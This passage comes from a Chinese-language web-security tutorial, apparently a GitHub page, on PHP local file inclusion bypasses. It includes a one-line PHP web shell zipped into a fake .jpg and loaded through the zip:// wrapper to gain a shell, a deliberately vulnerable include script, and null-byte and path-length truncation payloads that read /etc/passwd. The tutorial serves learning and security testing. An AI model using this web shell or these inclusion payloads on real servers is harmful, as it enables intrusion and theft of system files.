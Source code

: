 **特殊姿势：配合zip伪协议**

```php
将一句话木马保存到shell.php文件中，然后使用zip命令压缩成1.jpg
echo '<?php @eval($_POST['cmd']);?>' > shell.php
zip 1.jpg shell.php
然后上传1.zip到目标服务器上

配合zip伪协议包含1.zip压缩包中的shell.php文件Getshell
?zip://1.jpg%231.jpg
```



#### 8、有限制本地文件包含漏洞绕过

测试代码：

```php
<?php
    $filename  = $_GET['filename'];
    include($filename . ".html");
?>
```

代码中多添加了html后缀，导致远程包含的文件也会多一个html后缀。



###### **%00截断绕过**

条件：magic_quotes_gpc = Off php版本<5.3.4

```php
http://www.xxx.com/lfi.php?filename=/etc/passwd%00
```



###### **路径长度截断**

条件：windows OS，点号需要长于256；linux OS 长于4096

* Windows下目录最大长度为256字节，超出的部分会被丢弃；
* Linux下目录最大长度为4096字节，超出的部分会被丢弃。

```php
http://www.xxx.com/lfi.php?filename=test.txt?/././././././././././././././././././././././././././././././././
./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././
```
